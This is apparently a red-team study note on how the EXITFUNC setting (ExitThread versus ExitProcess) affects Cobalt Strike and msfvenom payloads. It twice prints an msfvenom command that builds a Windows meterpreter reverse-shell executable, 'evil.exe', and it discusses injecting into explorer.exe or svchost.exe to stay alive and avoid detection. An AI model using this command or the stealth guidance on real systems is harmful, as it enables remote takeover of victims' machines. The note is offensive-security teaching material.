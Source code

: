 # ExitProcess vs ExitThread

## Recap

### process

is an instance of a program that is currently running. It contains the program's code, data, resources (such as file handles, memory, etc.), and at least one thread. A process is the basic unit for resource allocation in an operating system. Each process has its own independent memory space, and processes are typically isolated from one another.

### Thread

A thread is an execution unit within a process. A process can contain multiple threads, and threads share the resources of the process (such as memory and file handles), but each thread has its own stack and registers. A thread is the basic unit of CPU scheduling.

<figure><img src="../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

### # Setting EXITFUNC&#x20;

In cobalt strike in the generating of payload we are able to set the Exit functions

<figure><img src="../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

In msfvenom, we can set through the commands

{% code overflow="wrap" %}
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 EXITFUNC=process -f exe -o evil.exe
```
{% endcode %}

### EXITFUNC: Thread

**Behavior**

* When EXITFUNC is set to thread, the payload calls the ExitThread function.
* This terminates the current thread but does not affect other threads within the same process.

**Impact**

* The process itself does not exit, and other threads (if any) continue running.
* If the payload is injected into a legitimate process (e.g., explorer.exe or iexplore.exe) as a sub-thread, terminating that thread typically does not cause the entire process to crash.

**Applicable Scenarios**

* Suitable for most exploitation scenarios, especially when the payload runs in a sub-thread of the target process.
* Ideal for scenarios where the target process **needs to remain alive** (e.g., to maintain stealth or for subsequent operations).

**Potential Issues**

* If the payload runs in the main thread, calling ExitThread may cause the entire process to exit (depending on the Windows version and specific behavior).
* If the thread's execution path is not clean, it may leave behind residual resources.

***

### EXITFUNC: Process

**Behavior**

* When EXITFUNC is set to process, the payload calls the ExitProcess function.
* This terminates the entire process, including all threads within it.

**Impact**

* All resources occupied by the process (e.g., memory, file handles) are reclaimed by the operating system.
* If the payload is injected into an existing process, calling ExitProcess will cause the **entire target process to exit.**

**Applicable Scenarios**

* Suitable for scenarios involving multi/handler (a listener in Metasploit used to handle multi-session payloads).
* Ideal for payloads running in an **independent process**, where a **complete cleanup** is needed after the task is finished.

**Potential Issues**

* If the payload is injected into a critical process (e.g., svchost.exe), calling ExitProcess will cause that process to crash, potentially leading to system instability or user detection.
* Not suitable for scenarios where the target process **needs to remain alive.**

## Why EXITFUNC=process is recommended&#x20;

{% code overflow="wrap" %}
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 EXITFUNC=process -f exe -o evil.exe
```
{% endcode %}

In this example, we are generating an executable file and is going to launch on victim computer and create a meterpreter.&#x20;

After the second stage payload is sent to victim, the connection is established. The meterpreter module will be injected into other process such as explorer.exe or svchosts.exe. The original evil.exe will no longer be used, and it is good that the process is being "Cleaned" to prevent any trace or zombie process.

Some misunderstanding about the payload execution\
1\) Payload and meterpreter is the samething

* Actually fact, payload such as evil.exe is just a launcher, the main task is to load meterpreter shellcode into memory, once it's been loaded, evil.exe can be exit they are no dependent.

2\) Connection needs the original process

* Meterpreter connection does not need the original process to be alived.
* Meterpreter have its own TCP connection with multi/handler, even the payload quits, meterpreter will still continue to run as they inject themself to a legitamte process



## Author

Ik0nw
